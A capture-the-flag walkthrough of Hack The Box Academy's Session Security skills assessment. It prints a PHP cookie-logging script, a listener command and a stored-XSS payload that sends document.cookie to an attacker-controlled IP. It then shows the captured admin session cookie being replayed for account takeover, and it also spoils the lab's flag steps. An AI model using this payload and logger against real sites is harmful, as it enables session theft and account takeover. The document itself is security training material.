 ```yaml
---
title: "[HTB] Session Security"
excerpt: "**Session Security** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Session_Security/banner.png
  teaser: /assets/images/HTB_Session_Security/upper.jpg
  og_image: /assets/images/HTB_Session_Security/upper.jpg
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
  - Session Security
  - Cookie
  - PHP
  - Payload
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Session_Security\upper.jpg)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Session_Security_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Session_Security)

## Module Summary

Any inefficiencies or misconfigurations in the session-handling implementation of a web application, service, or API can have devastating consequences that range from information leakage and inadvertent user actions all the way to Account Takeover (ATO) and remote code execution.

As you can imagine, it is of paramount importance to thoroughly test the session-handling logic of a web application being assessed. That said, testing the robustness of a session-handling implementation is not a small feat. This is because chaining (seemingly unrelated) vulnerabilities is often required to successfully attack a user's session.

Worry not, though; in this module, we will provide you with a highly hands-on experience around attacking a user's session and the possible paths that you can take to achieve that.

In this module, you will have the opportunity to practice manual exploitation of the following:

- Session Hijacking
- Session Fixation
- XSS (Cross-Site Scripting) <-- With a focus on user sessions
- CSRF (Cross-Site Request Forgery)
- Open Redirect <-- With a focus on user sessions
  
We will also discuss remediation guidance regarding the abovementioned vulnerabilities.

## Session Security - Skills Assessment

>**Q. Read the flag residing in the admin's public profile. Answer format: [string]**

<div style="text-align: justify">1. We utilize virtual hosts (vhosts) to house the web applications to simulate a large, realistic environment with multiple webservers. Since these vhosts all map to a different directory on the same host, we have to make manual entries in our /etc/hosts file on the Pwnbox or local attack VM to interact with the lab.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\1.png)

<div style="text-align: justify">2. Access to http://minilab.htb.net. First you have to log in with the credentials provided in the statement. Enter the credentials and click on login.</div>
```
Email: heavycat106
Password: rocknrol
```
![image-center](\assets\images\HTB_Session_Security\Q11\2.png)

<div style="text-align: justify">3. Create a PHP script that saves the cookie.</div>
```sh
nano log.php
```
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

![image-center](\assets\images\HTB_Session_Security\Q11\3.png)

<div style="text-align: justify">4. Open a listener in the same folder where the PHP script created in the previous step is.</div>
```sh
php -S 10.10.15.60:8000
```
![image-center](\assets\images\HTB_Session_Security\Q11\4.png)


<div style="text-align: justify">5. Access the "app" section, enter the following payload in the country field and click on the "Save" button.</div>
```php
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.60:8000/log.php?c=' + document.cookie;"></video>
```
![image-center](\assets\images\HTB_Session_Security\Q11\5.png)

<div style="text-align: justify">6. When you click on save, you are redirected to a section where you can save the data permanently. In the following screenshot it is verified that the app has accepted the payload. Click on Save.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\6.png)

<div style="text-align: justify">7. Access "http://minilab.htb.net/submit-solution" and see how the success field is "false".</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\7.png)

<div style="text-align: justify">8. Insert the following link that contains the profile with the payload as a parameter.</div>
```
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```
![image-center](\assets\images\HTB_Session_Security\Q11\8.png)

<div style="text-align: justify">9. We check the listener and see what looks like a cookie thanks to the payload, the script and the listener.</div><br>
```sh
[Thu Feb  9 11:11:28 2023] 10.129.19.198:37042 [302]: GET /log.php?c=auth-session=s%3AZMEqyRAhF2Ta7gHyxUZCWu4DaPb2_KT0.ES2ciTNMldjUBsKFonTFKF%2B09jHx6I3lIJFfQGjTkmc
```
![image-center](\assets\images\HTB_Session_Security\Q11\9.png)

<div style="text-align: justify">10. In Chrome, introduce that cookie in storage and update.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\10.png)

<div style="text-align: justify">11. The admin profile has been accessed within the app. Click on the "Change Visibility" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\11.png)
<div style="text-align: justify">12. Finally, click on "Make Public!" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\12.png)
<div style="text-align: justify">13. Here we see the first flag and a button to get the second flag. Clicking on the "Flag2" button downloads a pcap file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\13.png)

>**Q. Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
wireshark**

<div style="text-align: justify">1. We open Wireshark as "superuser" and click on "Open Capture File". Select the previously downloaded file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\14.png)

<div style="text-align: justify">2. Once the file is open, we look for the string "FLAG" in the search engine and the second Flag is obtained.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\15.png)